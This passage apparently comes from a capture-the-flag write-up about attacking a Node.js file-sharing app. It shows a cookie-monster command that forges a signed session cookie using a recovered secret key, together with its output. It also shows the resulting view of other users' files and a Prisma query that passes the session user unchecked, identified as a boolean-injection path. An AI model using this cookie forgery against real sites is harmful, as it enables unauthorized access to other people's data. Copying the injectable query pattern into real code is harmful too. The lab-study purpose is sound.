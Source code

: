 `{"flashes":{"info":[],"error":[],"success":[]},"user":{}}`

Now the JSON data will need to be encoded with the expected secret so the signature matches. For example:

`cookie-monster -e -n download_session -f cookie -k 8929874489719802418902487651347865819634518936754`

Output of the above command:

```
[+] Data Cookie: download_session=eyJmbGFzaGVzIjp7ImluZm8iOltdLCJlcnJvciI6W10sInN1Y2Nlc3MiOltdfSwidXNlciI6e319
[+] Signature Cookie: download_session.sig=RdmrvnrBpzrS3slS77uG7Cuiv-Q
```

### Outcome of viewing all user files

After adding the generated cookies into Firefox's session storage it exposed all user files as shown below. It also revealed the username of any user who had uploaded files. There was a limitation which prevented private files of other users being downloaded. Only public files were accessible. 

The names of the private files were no different to the public files which strongly suggested all the files were not very interesting.

![0bbc5a528170bec14cfbcabc8623dbdc.png](/assets/img/0bbc5a528170bec14cfbcabc8623dbdc-1.png)

# Boolean Injection - Prisma Client
Prisma client is a query builder which can interact with a database. Using the file disclosure vulnerability it was not possible to find any `.env` or `prisma.schema` files.

Reviewing the source code revealed a possible path to injection. Within `home.js` the user session was being passed to a `findMany` query.

```js
    const files = await client.file.findMany({
        where: { author: req.session.user },
        select: {
            id: true,
            uploadedAt: true,
            size: true,
            name: true,
            private: true,
            authorId: true,
            author: {
                select: {
                    username: true,
                },
            },
        },
    });

```
